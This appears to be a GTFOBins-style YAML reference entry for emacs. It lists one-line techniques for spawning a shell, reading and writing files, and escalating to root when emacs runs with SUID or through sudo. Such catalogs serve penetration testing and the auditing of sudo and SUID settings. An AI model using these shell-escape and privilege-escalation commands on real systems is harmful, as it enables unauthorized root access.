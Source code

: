 ```yaml
---
functions:
  execute-interactive:
  - code: emacs -Q -nw --eval '(term "/bin/sh")'
  file-write:
  - code: |
      emacs file_to_write
      C-x C-s
  file-read:
  - code: 'emacs file_to_read

'
  suid-enabled:
  - code: ./emacs -Q -nw --eval '(term "/bin/sh -p")'
  sudo-enabled:
  - code: sudo emacs -Q -nw --eval '(term "/bin/sh")'
---
```

